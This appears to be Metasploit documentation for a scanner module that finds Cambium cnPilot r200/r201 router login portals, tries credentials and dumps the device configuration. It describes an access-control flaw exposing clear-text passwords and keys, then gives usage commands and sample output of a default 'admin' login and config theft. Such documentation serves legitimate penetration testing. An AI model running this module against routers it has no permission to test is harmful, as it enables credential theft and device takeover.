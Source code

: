 This module scans for Cambium cnPilot r200/r201 management login portal(s), attempts to identify valid credentials, and dump device configuration.

The device has at least two (2) users - admin and user. Due to an access control vulnerability, it is possible for 'user' account to access full device config. All information, including passwords, and keys, is stored insecurely, in clear-text form, thus allowing unauthorized 'admin' access to any user.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/cnpilot_r_web_login_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/cnpilot_r_web_login_loot
msf auxiliary(cnpilot_r_web_login_loot) > set rhosts 1.3.3.7
msf auxiliary(cnpilot_r_web_login_loot) > run

[*] 1.3.3.7:80   - Cambium cnPilot confirmed...
[+] 1.3.3.7:80   - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "admin":"admin"
[*] 1.3.3.7:80 - dumping device configuration
[+] 1.3.3.7:80 - Configfile.cfg retrieved successfully!
[+] 1.3.3.7:80   - File saved in: /root/.msf4/loot/20000000000003_default_1.3.3.7_Configfile.cfg_12345.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
